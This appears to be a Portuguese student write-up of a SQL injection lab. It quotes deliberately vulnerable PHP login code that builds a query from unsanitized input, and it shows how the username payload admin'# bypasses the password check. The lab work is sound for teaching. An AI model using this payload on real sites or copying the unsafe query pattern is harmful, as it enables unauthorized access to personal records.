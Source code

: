 - unsafe_home.php
```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
$result = $conn -> query($sql);
```

### Task 2.1: SQL Injection Attack from webpage

Escrevendo uma string aleatória (`anything`) no campo `Password` e `admin'#` no campo `Username`, a _query_ SQL será a seguinte:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'#' and Password='anything'
``` 

Uma vez que, tudo o que está à direita de `#` até ao final dessa linha é considerado um comentário, a _query_ SQL é equivalente a:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'
``` 

![](./screenshots/admin__.png)
